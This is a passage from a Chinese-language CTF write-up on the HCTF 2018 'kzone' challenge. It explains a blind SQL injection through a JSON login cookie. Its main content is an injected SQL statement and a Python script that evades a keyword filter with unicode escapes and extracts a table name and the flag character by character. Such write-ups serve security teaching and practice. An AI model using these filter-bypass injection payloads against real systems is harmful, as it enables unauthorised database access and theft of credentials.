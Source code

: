 这时的SQL语句就变为了

```SQL
select * from fish_admin where username='admin' and lpad(`username`,1,1)in('a') and'1' limit 1;
```

就可以通过是否登录成功进行盲注

这时候勉强可以注入出`user()`、`username`这些无关痛痒的信息，但是当想注表名之类的数据时，就会因为`information`中存在`or`而无法注入

最后，组内一个大佬提示了一波unicode编码

> json_decode在解码的时候会进行一次unicode解码

这样问题就好解决了，只要把被过滤的字符进行unicode编码然后传入就可以了，写了一个python脚本

```python
import requests
import string

url = "http://kzone.2018.hctf.io/admin/login.php"

rg = '._- {}'+string.digits+string.ascii_letters+'&'
flag = ''

for l in range(30):
	for i in rg:
		cookies = {
			"islogin":"1",
			# 'login_data': r'''{{"admin_user":"admin'\rand\rlpad((select\rcolumn_name\rfrom\rinf\u006frmation_schema.columns\rwhere\rtable_name\u003d'F1444g'limit\r1),{},2)in('{}{}')\rand'1","admin_pass":"3aa526bed244d14a09ddcc49ba36684866ec7661"}}'''.format(l+1,flag, i)
			'login_data': r'''{{"admin_user":"admin'\rand\rlpad((select\rf1a9\rfrom\rF1444g\rlimit\r1),{},2)in('{}{}')\rand'1","admin_pass":"3aa526bed244d14a09ddcc49ba36684866ec7661"}}'''.format(l+1,flag, i)	
		}

		r = requests.get(url, cookies=cookies)
		print(i, end="\r")
		# print("\r")
		if len(r.text) > 1000:
			flag+=i
			print(flag)
			break
		if i == '&':
			exit()
```
